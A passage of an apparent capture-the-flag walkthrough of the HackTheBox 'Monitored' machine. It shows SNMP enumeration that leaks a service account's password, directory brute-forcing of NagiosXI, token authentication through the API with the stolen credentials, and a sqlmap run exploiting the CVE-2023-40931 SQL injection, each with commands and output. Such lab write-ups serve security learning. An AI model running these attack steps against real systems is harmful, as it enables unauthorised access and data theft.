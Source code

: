 Here we find a couple of snmp ports, we can run `snmapbulkwalk` to find any public info.
```bash
$ snmpbulkwalk -v 2c -c public monitored.htb 1 > snmpwalk.out
...
iso.3.6.1.2.1.25.4.2.1.5.1455 = STRING: "-u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB"
iso.3.6.1.2.1.25.4.2.1.5.1456 = STRING: "-c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB"
...
```

After looking through the entire output, we can find some potential user credentials:
user: `svc`
pass: `XjH7VCehowpR1xZB`

# Enumerate NagiosXI
If we try to use these credentials on the NagiosXI panel, it'll say that our token has expired.

We'll use gobuster to search for directories while poking around:
```bash
$ gobuster dir -u https://nagios.monitored.htb/nagiosxi/ -w /usr/share/seclists/Discovery/Web-Content/big.txt -k  -t 4 --delay 1s -o gobuster.out
api [200]
```

We can do some more research on the nagiosxi api. We can authenticate using tokens: [https://www.nagios.org/ncpa/help/2.0/api.html](https://www.nagios.org/ncpa/help/2.0/api.html)
Couldn't find much in their docs, but I did find this forum post: [https://support.nagios.com/forum/viewtopic.php?t=58783](https://support.nagios.com/forum/viewtopic.php?t=58783)

Someone responds with a curl command used to authenticate, entering the `svc` creds we get can get our token:
```bash
$ curl -XPOST -k -L 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=5
{
    "username": "svc",
    "user_id": "2",
    "auth_token": "ce0b123ce1c5817801d284d790b08763e4965e75",
    "valid_min": 5,
    "valid_until": "Mon, 03 Jun 2024 04:15:01 -0400"
}
```

Going back I went to the login site added `?token={auth_token}` as a query parameter and we're in the panel now. In the bottom banner we can see that it's running version `5.11.0`

If we navigate to the account page, we'll find the API key for `svc`: `2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK`
![](/images/htb/monitored/nagiosAccount.png)

If we do a quick search on `Nagios 5.11.0` we'll quickly find [CVE-2023–40931](https://nvd.nist.gov/vuln/detail/CVE-2023-40931)
The ID parameter on the endpoint `/nagiosxi/admin/banner_message-ajaxhelper.php` is vulnerable to SQLI.
# Using sqlmap
To start I ran sqlmap to find what databases were available:
```bash
$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" --cookie "nagiosxi=busp3tpjtbvc4tngeg8or3sg2t" --dbs
available databases [2]:
[*] information_schema
[*] nagiosxi
```

